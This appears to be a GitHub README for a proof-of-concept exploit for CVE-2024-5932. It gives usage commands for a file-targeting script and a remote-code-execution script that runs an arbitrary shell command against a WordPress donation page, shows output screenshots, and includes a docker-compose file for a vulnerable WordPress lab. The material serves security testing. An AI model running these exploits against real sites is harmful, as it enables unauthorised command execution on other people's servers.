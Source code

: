 ### Example 
```sh
python CVE-2024-5932.py -u http://example.com/2024/08/24/donation2/ -f /tmp/test
python CVE-2024-5932-rce.py -u http://example.com/2024/08/24/donation2/ -c "touch /tmp/test"
```

### Output
**CVE-2024-5932.py**
![0](https://github.com/user-attachments/assets/4ce2bce6-4a24-4d73-9c7e-becd12f2dbe0)


**CVE-2024-5932-rce.py**
![1](https://github.com/user-attachments/assets/d68f4ebf-a1e0-4389-b9e4-e1d23c6fa235)



### Result
![image](https://github.com/user-attachments/assets/613f6f4f-8de3-4200-8f29-b46719083bff)
![2](https://github.com/user-attachments/assets/3bf5402d-baf2-4bc0-8452-8f249a55ebe3)

## Vulnerable Environment
### 1. docker-compose.yml
```sh
services:
  db:
    image: mysql:8.0.27
    command: '--default-authentication-plugin=mysql_native_password'
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=somewordpress
      - MYSQL_DATABASE=wordpress
      - MYSQL_USER=wordpress
      - MYSQL_PASSWORD=wordpress
    expose:
      - 3306
      - 33060
  wordpress:
    image: wordpress:6.3.2
    ports:
      - 80:80
    restart: always
    environment:
      - WORDPRESS_DB_HOST=db
      - WORDPRESS_DB_USER=wordpress
      - WORDPRESS_DB_PASSWORD=wordpress
      - WORDPRESS_DB_NAME=wordpress
volumes:
  db_data:
```
